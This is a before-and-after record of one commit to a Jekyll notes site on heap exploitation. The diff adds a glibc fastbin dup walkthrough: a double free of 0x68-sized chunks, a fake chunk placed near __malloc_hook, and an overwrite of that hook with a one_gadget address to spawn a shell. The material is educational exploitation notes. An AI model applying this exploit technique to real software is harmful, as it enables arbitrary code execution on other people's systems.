

Before and after one commit to 0xSh4dy/archives_sh4dy.com, a Jekyll site: the page built from notes/heap-exploitation/fastbin-attack.md, in a window 1280 px wide and 1400 px high, scrolled down 1185 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 1826 px from its top, so only the background shows below that.

Commit message:
Fixed fastbin dup

````diff
--- a/notes/heap-exploitation/fastbin-attack.md
+++ b/notes/heap-exploitation/fastbin-attack.md
@@ -47,8 +47,43 @@ if (__glibc_likely (victim != NULL))
 
 ```
 When a chunk is allocated from a fastbin, a check is made if the size field of the chunk malloc is about to allocate is same as the size of the fastbin it is being allocated from.
-If you have no control over the fake chunk size, you may use the pwndbg command `find_fake_fast` which will find fake size fields that fall in the fastbin range.
+If you have no control over the fake chunk size, you may use the pwndbg command `find_fake_fast` which will find fake chunks with a particular size field than can be used to perform a fastbin dup.
 
 ```
 find_fake_fast &__malloc_hook
 ```
+
+One such fake chunk is found at `&__malloc_hook - 35`. Thus, keeping the size field integrity check in mind, a fastbin dup can be performed by using 0x70 sized chunks.
+
+```
+fake_fast = __malloc_hook - 0x35
+
+#Let's say, a function allocate is used to create a new chunk of some size, containing some data
+ptr1 = allocate(0x68,b'a'*8)
+ptr2 = allocate(0x68,b'a'*8)
+```
+
+Execute the double free
+```
+free(ptr1)
+free(ptr2)
+free(ptr1)
+
+```
+
+Continue the attack
+```
+#Insert the fake_fast chunk into the 0x70 fastbin.
+
+allocate(0x68,p64(fake_fast))
+
+allocate(0x68,b'a'*8)
+allocate(0x68,b'a'*8)
+
+#Write one_gadget into __malloc_hook
+
+allocate(0x68,b'a'*19+p64(one_gadget))
+
+#Call malloc to spawn a shell
+allocate(....)
+```
````
Also changed, not shown: notes/heap-exploitation/house-of-husk.md (+3 -0 lines).
